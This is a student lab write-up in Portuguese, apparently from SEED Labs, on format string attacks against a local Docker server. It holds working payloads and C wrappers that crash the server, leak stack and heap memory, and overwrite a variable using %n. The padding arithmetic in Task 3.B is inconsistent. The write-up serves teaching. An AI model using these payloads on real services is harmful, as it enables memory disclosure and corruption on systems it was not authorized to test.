




# Format String Attack

## Setup

Numa fase inicial desligamos a randomização de endereços, pois é importante para este ataque descobrir a localização e ordem dos endereços do programa.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

Depois abrimos dois terminais, um com os servidores usando o Docker dos seed-labs e outro (o cliente) para comunicar com os servidores. Isto permitiu ver as mensagens trocadas dos dois lados. Ao mandar uma string para o servidor, usando o comando:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```

O servidor retorna alguns endereços necessários para as tarefas seguintes:
- endereço do buffer de input
- endereço da mensagem secreta
- frame pointer da função myprintf
- o endereço inicial e final de uma variável **target**

O program.c, que é o programa que corre no servidor, foi compilado usando a flag `-z execstack` porque só assim permite que código dentro da stack seja executado.

## Task 1

Para crashar o servidor bastou inserir a seguinte string de input:

```bash
$ echo '%s' | nc 10.9.0.5 9090
```

A format string vai buscar o endereço imediatamente acima da sua posição na stack e tenta imprimir a string que está nesse endereço. Isto muito provavelmente calha numa zona fora da memória virtual do processo.

Como no lado do servidor não houve a mensagem `Returned properly`, o servidor crashou.

## Task 2

### Task 2.A

Para imprimir os primeiros 4 bytes do input a partir da format string, é necessário que o input contenha um valor conhecido para ser mais facilmente identificado. No nosso caso usaremos "ABCD", que em hexadecimal dá "41424344". 

A ideia inicial é dar como input "ABCD" concatenado com vários "%08x".

```bash
echo "ABCD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

No output do servidor foi possível observar:

```note
ABCD112233440000100008049DB5080E5320080E61C0FFFFD1A0FFFFD0C8080E62D4080E5000FFFFD16808049F7EFFFFD1A0000000000000006408049F47080E5320000004D7FFFFD2A5FFFFD1A0080E5320080E97200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000052488F00080E5000080E5000FFFFD78808049EFFFFFFD1A000000105000005DC080E5320000000000000000000000000FFFFD8540000000000000000000000000000010544434241...
```

O final "44434241" é o endereço da string "ABCD" dado como input. Note-se que os bytes constituintes estão invertidos.

Entre "ABCD" e "44434241" existem 504 caracteres e como cada endereço é constituido por 8 caracteres (são endereços de 32 bits), então existem 504/8 = 63 endereços na stack entre a format string e o buffer.

Conclui-se assim que nesta configuração do programa, para imprimir os primeiros 4 bytes do input inicial é necessário criar uma string com exatamente 64 "%x": os primeiros 63 para mostrar os endereços intermédios e o último para mostrar os 32 bits iniciais (4 bytes) do input.

### Task 2.B

Nesta tarefa necessitamos de imprimir o conteúdo de uma string presente na Heap no endereço 0x080b4008. Como o programa a ser executado no servidor é o mesmo da tarefa anterior, então usaremos os mesmos princípios.

O endereço 0x080b4008 pode ser codificado em string como "\x08\x0b\x40\x08". Ao colocarmos este endereço no início do input seguido de 63 "%08x" e um "%s", então a format string irá ler deste endereço e retornar o valor escondido. <br>
O código executado foi o seguinte:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do lado do servidor foi o seguinte:



Conclui-se então que a mensagem do endereço é `"A secret message"`.

## Task 3

### Task 3.A

Nesta tarefa necessitamos de mudar o valor da variável `target`. Inicialmente o seu valor é 0x11223344 e o endereço é 0x080e5068.

O comando `%n` nas format strings escreve na zona de memória do argumento passado como parâmetro o número de caracteres escritos até ali. A abordagem é muito semelhante ao comando da tarefa 2.B, só que em vez de ler do endereço selecionado, vamos escrever. <br>
O código executado foi o seguinte:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do lado do servidor foi o seguinte:



### Task 3.B

Desta vez o valor de `target` deve ser mudado para um valor concreto: 0x5000, ou seja 20480 em decimal. Como sabemos que '%n' irá escrever o número de caracteres escritos até ali, então o input até '%n' terá de ter 20408 caracteres. Como o input é grande, usamos a notação `%.NX`, com N = 20408 - 4 - 63*8 = 19980, para escrever os 19980 que faltam com o valor 0. 

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

Originou o seguinte output no servidor:




Como observado, o valor de `target` é agora 0x00005000.
